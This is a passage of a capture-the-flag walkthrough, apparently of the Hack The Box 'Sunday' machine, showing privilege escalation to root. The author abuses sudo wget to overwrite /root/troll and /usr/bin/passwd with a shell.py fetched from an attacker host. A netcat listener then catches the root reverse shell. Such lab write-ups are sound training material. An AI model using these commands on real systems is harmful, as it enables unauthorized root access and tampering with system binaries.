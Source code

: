 
Serve it with SimpleHTTPServer, and request with wget, using the option, which will allow us to specify a file to write the wget output to, and it will overwrite that file if it already exists:`shell.py``-O`

    sammy@sunday:~$ sudo wget http://10.10.14.5/shell.py -O /root/troll
    --01:07:04--  http://10.10.14.5/shell.py
               => `/root/troll'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 246 [text/plain]
    
    100%[==========================================================================================================================================================================================================>] 246           --.--K/s
    
    01:07:04 (25.59 MB/s) - `/root/troll' saved [246/246]
    

    root@kali:~/hackthebox/sunday-10.10.10.76# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.76 - - [27/Sep/2018 21:11:58] "GET /shell.py HTTP/1.0" 200 -
    

Run it with sunny:

    sunny@sunday:~$ sudo /root/troll
    

And get callback:

    root@kali:~/hackthebox/sunday-10.10.10.76# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 56164
    root@sunday:~# id
    uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)
    

This is a bit trickier to pull off than it one might think at first, if you aren’t quick _and_ lucky. That’s because of the script resetting to it’s original self every 5 seconds. Check out the Beyond Root section where I’ll look at detecting this. But for the sake of making it work, have the windows close together and run as sammy immediately followed by as sunny.`overwrite``troll``wget``troll`

Here’s how I did it, with SimpleHTTPServer in the top window, then sammy SSH, then sunny SSH, and then nc listener to catch root shell:

![1538099855160](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fsunday-troll-priv.gif)

#### Overwrite Different SUID Binary

If catching troll before it reverts was too much, it’s certainly easier to just overwrite a different set uid binary. Just make a backup copy of the original first, so you can put it back after exploiting. For example, :`/usr/bin/passwd`

    sammy@sunday:~$ cp /usr/bin/passwd /tmp
    sammy@sunday:~$ ls -la /usr/bin/passwd
    -r-sr-sr-x 1 root sys 31584 2009-05-14 21:18 /usr/bin/passwd
    sammy@sunday:~$ sudo wget -O /usr/bin/passwd http://10.10.14.5/shell.py
    --02:09:34--  http://10.10.14.5/shell.py
               => `/usr/bin/passwd'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 246 [application/octet-stream]
    
